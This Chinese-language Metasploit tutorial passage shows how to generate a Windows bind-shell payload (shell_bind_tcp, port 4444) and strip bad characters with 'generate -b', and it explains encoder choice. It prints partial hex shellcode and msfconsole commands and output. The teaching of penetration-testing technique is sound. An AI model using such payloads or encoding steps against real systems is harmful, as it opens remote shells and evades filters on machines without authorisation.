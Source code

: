 ```
"\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44" +
"\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56" +
"\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86" +
"\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60" +
"\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5" +
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f" +
"\x6a\x00\x53\xff\xd5"
```

直接生成上述有效的攻击载荷是不容易的，通常需要根据不同的目标平台，选择不同的编译器和“bad character”。

上面这个样本代码包含了一个几乎通用的“坏字符”，即 null 字节（\x00）。虽然有些渗透脚本允许使用它，但很多都不允许使用。在此，我们需要告诉metasploit删除那些不想要的字节。

为了完成这一点，我们使用跟随参数“-b” 的 generate 命令。它会替换命令中跟在-b后面的不想要的字节，例如，下面我们将载荷中的\x00去掉了。

```shell
msf  payload(shell_bind_tcp) > generate -b '\x00'
# windows/shell_bind_tcp - 368 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xdb\xde\xba\x99\x7c\x1b\x5f\xd9\x74\x24\xf4\x5e\x2b\xc9" +
"\xb1\x56\x83\xee\xfc\x31\x56\x14\x03\x56\x8d\x9e\xee\xa3" +
"\x45\xd7\x11\x5c\x95\x88\x98\xb9\xa4\x9a\xff\xca\x94\x2a" +
"\x8b\x9f\x14\xc0\xd9\x0b\xaf\xa4\xf5\x3c\x18\x02\x20\x72" +
"\x99\xa2\xec\xd8\x59\xa4\x90\x22\x8d\x06\xa8\xec\xc0\x47" +
"\xed\x11\x2a\x15\xa6\x5e\x98\x8a\xc3\x23\x20\xaa\x03\x28" +
"\x18\xd4\x26\
...snip...
```

上面的shellcode是去除了\x00的。这样我们就得到了一个没有null字节的载荷。上面两端shellcode，长短是不同的。第一段长度为341字节，后一段比第一段多27字节。

```shell
msf  payload(shell_bind_tcp) > generate
# windows/shell_bind_tcp - 341 bytes
# http://www.metasploit.com
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
...snip...

msf  payload(shell_bind_tcp) > generate -b '\x00'
# windows/shell_bind_tcp - 368 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
...snip...
```

在第一段中，null字节是原始的间隔符，或者无用字符，需要被替换或编码处理，以保证在目标机器中可以被执行。上例另一个重要的变化是使用了编码器。默认情况下，metasploit将选择最好的编码器完成当前任务。编码器负责移除不想要（-b后）的字符或字节内容。当指定坏字符时，Metasploit使用了x86/shikata_ga_nai编码器，这个编码器仅替换空字符。如果需要替换别的字符，就需要使用其他编码器。例如：

```
msf  payload(shell_bind_tcp) > generate -b '\x00\x44\x67\x66\xfa\x01\xe0\x44\x67\xa1\xa2\xa3\x75\x4b'
# windows/shell_bind_tcp - 366 bytes
# http://www.metasploit.com
# Encoder: x86/fnstenv_mov
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\x6a\x56\x59\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\xbf" +
"\x5c\xbf\xe8\x83\xeb\xfc\...
...snip...
```
